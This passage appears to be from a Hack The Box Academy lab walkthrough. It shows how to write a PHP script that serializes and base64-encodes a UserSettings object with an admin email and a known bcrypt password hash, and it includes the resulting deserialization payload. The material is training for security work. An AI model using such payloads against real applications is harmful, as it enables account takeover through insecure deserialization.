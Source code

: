 Then, in the same directory, students need to create a file called `exploit.php` and make its contents to generate a serialized `UserSettings` object with the username `pentest`, the email address `admin@htbank.com`, the `Bcrypt` hash of the plaintext `password` (students can either use the same hash `$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda` that was utilized in the section or use [bcrypt-generator](https://bcrypt-generator.com/) to generate one), and the default image `default.jpg`:

Code: php

```php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('pentest', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
```

Students can use `cat` to save the exploit code into `exploit.php`:

Code: shell

```shell
cat << 'EOF' > exploit.php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('pentest', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
EOF
```

```shell
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-czme8jwrxv]─[~/htbank-clean]
└──╼ [★]$ cat << 'EOF' > exploit.php
> <?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('pentest', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
> EOF
```

Afterward, students can attain the serialized object by running `exploit.php`:

Code: shell

```shell
php exploit.php
```

```shell
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-czme8jwrxv]─[~/htbank-clean]
└──╼ [★]$ php exploit.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzIjo0OntzOjMwOiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAE5hbWUiO3M6NzoicGVudGVzdCI7czozMToiAEFwcFxIZWxwZXJzXFVzZXJTZXR0aW5ncwBFbWFpbCI7czoxNjoiYWRtaW5AaHRiYW5rLmNvbSI7czozNDoiAEFwcFxIZWxwZXJzXFVzZXJTZXR0aW5ncwBQYXNzd29yZCI7czo2MDoiJDJ5JDEwJHU1bzZ1MkViak9tb2JRalZ0dTg3UU84WndRc0RkMnp6b3Fqd1MwLjV6dVByM2hxazl3ZmRhIjtzOjM2OiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAFByb2ZpbGVQaWMiO3M6MTE6ImRlZmF1bHQuanBnIjt9
```
